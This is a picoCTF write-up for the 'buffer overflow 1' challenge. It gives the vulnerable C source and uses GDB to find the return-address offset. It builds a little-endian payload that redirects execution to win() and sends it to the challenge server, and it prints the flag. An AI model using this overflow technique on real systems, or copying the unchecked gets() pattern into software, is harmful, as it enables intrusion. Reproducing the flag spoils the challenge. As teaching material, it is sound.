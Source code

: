 **Description**

Author: Sanjay C / Palash Oswal

Control the return address

Hints
(none)

**Tools**

This writeup is a continuation of [buffer overflow 0](./binary/bufferoverflow0(100).md).
Please see this writeup if you don't understand the basics of a buffer overflow.

In this writeup and subsequent binary exploitation writeups, I will be using the tools [Ghidra](https://github.com/NationalSecurityAgency/ghidra), [GDB](https://en.wikipedia.org/wiki/GNU_Debugger), and an extension for GDB called [pwndbg](https://github.com/pwndbg/pwndbg).
This tools together provide excellent static and dynamic analysis of a binary. 
Another tool to look at is radare2, however I did not use it for this writeup.
This competition is an excellent place to learn how to use these programs, however I will not be teaching them in entirety.

**Research**

Lets open our source file and see if we can spot our goal:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We need to overflow the buffer buf in the funciton vuln with gets. Our flag is positioned in the function win, in which the only condition of it printing is entering the function.

Lets take a moment to look at the stack with this diagram:
![Image](https://www.secpod.com/blog/wp-content/uploads/2013/12/Untitled123.png)

We need to overwrite the stack from our variable, until we reach the return address, and then set the 4 bytes stored in there to the correct value that we want our program to return to.

Reading the assembly in Ghidra's code browser lets us see where we need to go to in the compiled binary.
You can search the file for functions by pressing G, and then searching for the function we want
win() is located at ```0x080491f6```

If we overwrite the return pointer, we can jump to that location

**Exploit**

So, we know where we overflow, what we need to overflow, and what to put in the overflow
Lets build an exploit using pwngdb and Ghidra

Try and run the file with GDB
```gdb vuln```

The input ```r``` will run the program, and ```continue``` will continue execution of the program at a breakpoint

Now, lets set some breakpoints to debug

```break *(vuln+34)```

```break *(win)```

This should pause when we enter the functions vuln and win

Now, lets pass input into the program automatically with python and set inputs

```r <<< $(python2 -c 'print("a"*32 + "b"*16)')```

This should overwrite the program and cause it to crash.
It should fill up the variable with a's (0x61) and then the next 16 locations with b's (0x62)

With our breakpoints, we should see this happen after using the continue command once after running and seeing the stack.
We can view the stack after the register ```esp``` with the command ```x/40x $esp```. This should print the next 40 64 bit values in stack. esp+0x10 = the start of our variable, and we can see it here.

```GDB
pwndbg> x/40x $esp
0xffffcef0:	0xffffcf00	0xf7fa5000	0xf7fa5dbc	0x08049291
0xffffcf00:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcf10:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcf20:	0x62626262	0x62626262	0x62626262	0x62626262
0xffffcf30:	0x00000000	0xffffcff4	0xffffcffc	0x000003e8
0xffffcf40:	0xffffcf60	0x00000000	0x00000000	0xf7dd4ee5
0xffffcf50:	0xf7fa5000	0xf7fa5000	0x00000000	0xf7dd4ee5
0xffffcf60:	0x00000001	0xffffcff4	0xffffcffc	0xffffcf84
0xffffcf70:	0xf7fa5000	0x00000000	0xffffcfd8	0x00000000
0xffffcf80:	0xf7ffd000	0x00000000	0xf7fa5000	0xf7fa5000
```

The return pointer is at 0xffffcf2b right now, or 12 characters after the end of our variable buffer. It is called EIP, and is stored this distance from the end of the local variables in stack.

lets try and overwrite it agian to verify that this is what we are overwriting

```r <<< $(python2 -c 'print("a"*32 + "b"*12 + "cccc")')```

```continue```

This should try and jump to ```0x63636363```

Lets make this jump to our win funciton located at ```0x080491f6```

```r <<< $(python2 -c 'print("a"*32 + "b"*12 + "\x08\x04\x91\xf6")')```

This doesn't work, it tries to jump to 0xf6910408. Why? This program is in [Little Endian](https://www.section.io/engineering-education/what-is-little-endian-and-big-endian/) format

Lets fix our exploit to:

```r <<< $(python2 -c 'print("a"*32 + "b"*12 + "\xf6\x91\x04\x08")')```

The program jumps into win after continuing, and it prints our flag! This should now work outside of the GDB environment now. It still crashes as we overwrote some things like what it should return into next to gracefully exit the program, but it still prints our flag which is what we care about.

Double checking outside of GDB:

```python2 -c 'print("a"*32 + "b"*12 + "\xf6\x91\x04\x08")' | ./vuln```

Using picoCTF's server to get the flag:

```python2 -c 'print("a"*32 + "b"*12 + "\xf6\x91\x04\x08")' | nc saturn.picoctf.net 65402```

It returns our flag!
It is: ```picoCTF{addr3ss3s_ar3_3asy_b9797671}```
